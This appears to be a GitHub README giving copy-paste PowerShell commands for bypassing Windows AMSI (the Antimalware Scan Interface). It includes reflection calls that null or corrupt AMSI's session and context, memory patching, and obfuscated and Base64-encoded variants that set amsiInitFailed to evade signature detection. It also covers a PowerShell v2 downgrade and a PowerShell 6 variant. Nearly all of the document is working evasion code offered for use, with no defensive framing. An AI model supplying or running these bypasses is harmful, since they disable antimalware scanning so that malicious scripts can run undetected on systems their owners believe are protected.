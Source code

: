 # AMSI Bypass steps (example)

## Github repo: https://github.com/Sh3lldon/FullBypass

### First execute

    $mem = [System.Runtime.InteropServices.Marshal]::AllocHGlobal(9076)

### And after

    [Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiSession","NonPublic,Static").SetValue($null, $null);

    [Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiContext","NonPublic,Static").SetValue($null, [IntPtr]$mem)

### It should show something like this

 - This script contains malicious content and has been blocked by your antivirus software.

### Then you have to use AMSI bypass. Copy and paste line by line.

    $a = [Ref].Assembly.GetTypes() | ?{$_.Name -like '*siUtils'}

    $b = $a.GetFields('NonPublic,Static') | ?{$_.Name -like '*siContext'}

    [IntPtr]$c = $b.GetValue($null)

    [Int32[]]$d = @(0xff)
 
    [System.Runtime.InteropServices.Marshal]::Copy($d, 0, $c, 1)

### After repeat

    $mem = [System.Runtime.InteropServices.Marshal]::AllocHGlobal(9076)

### And after

    [Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiSession","NonPublic,Static").SetValue($null, $null);

    [Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiContext","NonPublic,Static").SetValue($null, [IntPtr]$mem)

### And you should not see errors about "antivirus software". At this point you bypassed AMSI. And may continue.

##### Downgrade PowerShell

    powershell -v 2 -c "<...>"

##### Classic

    sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )

##### Base64

    [Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)

##### Force AMSI error

    $w = 'System.Management.Automation.A';$c = 'si';$m = 'Utils'
    $assembly = [Ref].Assembly.GetType(('{0}m{1}{2}' -f $w,$c,$m))
    $field = $assembly.GetField(('am{0}InitFailed' -f $c),'NonPublic,Static')
    $field.SetValue($null,$true)

##### On PowerShell 6

    [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('s_amsiInitFailed','NonPublic,Static').SetValue($null,$true)
